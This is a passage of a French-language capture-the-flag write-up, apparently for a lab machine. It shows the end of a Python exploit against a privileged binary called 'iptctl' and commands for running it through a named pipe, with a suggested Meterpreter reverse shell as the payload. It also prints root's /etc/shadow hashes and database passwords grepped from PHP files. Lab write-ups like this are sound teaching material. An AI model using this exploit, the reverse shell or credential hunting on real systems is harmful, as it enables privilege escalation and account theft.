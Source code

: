 ```python
buff += qw(execv)  # appelle execvp et exécute /tmp/show (RDI pointe déjà dessus)
buff += qw(exit0)  # On peut quitter proprepent après exécution :)
buff += b"\n"

with open(sys.argv[1], "wb", buffering=0) as fd:
    fd.write(buff)
    fd.write(b"1.1.1.1\n\n\n")
```

J'ai mis comme action */tmp/show* ce qui permet de passer la vérification de *isValidAction()* et est aussi un chemin que l'on peut contrôler.  

*execvp()* est plus difficile à utiliser qu'on peut le penser car on ne peut pas lui donner n'importe quoi en second argument mais il fonctionne s'il a 0 qu'il doit considérer comme NULL.  

Pour utiliser l'exploit il faut deux shells, l'un qui créé la fifo et exécute *iptctl* qui va lire dessus :  

```bash
mkfifo /tmp/myfifo; cat /tmp/myfifo| ./iptctl -i
```

Et le second lance juste l'exploit :  

```bash
python3 iptctl_exploit.py /tmp/myfifo
```

A l'emplacement */tmp/show* on mettra par exemple un reverse *Metepreter*. Avec un inline (linux/x64/meterpreter\_reverse\_tcp) ça fonctionnait mais *iptctl* crashait avec un stager.  

On a alors les droits pour lire le flag (*892a1f4d0*...) ou */etc/shadow* :  

```plain
root:$6$sGf6YPC9$H0ocTuQ4NWwgjlI0tMLXOb3jYR4QSOArGpeh/C7FL9HFpMSGGk4cDbKlyCwyrOVaCShgUOz3KVQP63OGs9Ij1.:17692:0:99999:7:::
penelope:$6$t15lzJqW$jAvVr1665q0qlnO.cbXOZp8hbgQRwNIv31gxvGASVMOYOrw4/LR6b/YQnk3DWxE4zl3BKCAqIm8CkWo/uuRi1.:17692:0:99999:7:::
```

You've got a mail
-----------------

Maintenant quelle était la méthode pour obtenir le flag de *Penelope* sans obtenir directement le root ?  

Quand on a notre premier shell on peut chercher dans les scripts PHP les identifiants PostgreSQL :  

```plain
$ grep -r --include "*.php" pg_connect * 2>/dev/null                    
admin/pages/firewall.php:   $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
admin/pages/users.php:  $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
```
